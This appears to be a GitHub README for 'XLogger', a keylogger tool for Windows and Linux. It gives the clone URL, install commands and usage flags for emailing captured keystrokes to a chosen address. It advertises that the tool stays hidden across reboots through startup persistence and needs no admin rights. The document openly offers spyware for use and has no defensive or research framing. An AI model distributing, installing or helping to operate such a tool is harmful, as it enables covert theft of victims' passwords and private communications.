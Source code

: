 # XLogger
Remote persistent keylogger for Windows and Linux.


Command :

Download
-->git clone https://github.com/XPR1M3/XLogger.git

Installation
--> chmod +x install.sh
-->./ install.sh

Usage
Execute --> python xlogger.py
For help --> python xlogger.py -h
For Windows --> python xlogger.py -i [time count in second] -w -e [Email] -p [password] -o [file name]
For Linux --> python xlogger.py -i [time count in second] -w -e [Email] -p [password] -o [file name]


Features:

-Logs keys pressed on keyboard.
-Sends reports by email.
-Starts with system startup.
-Works with Linux and Windows.
-Does not require root or admin privileges.


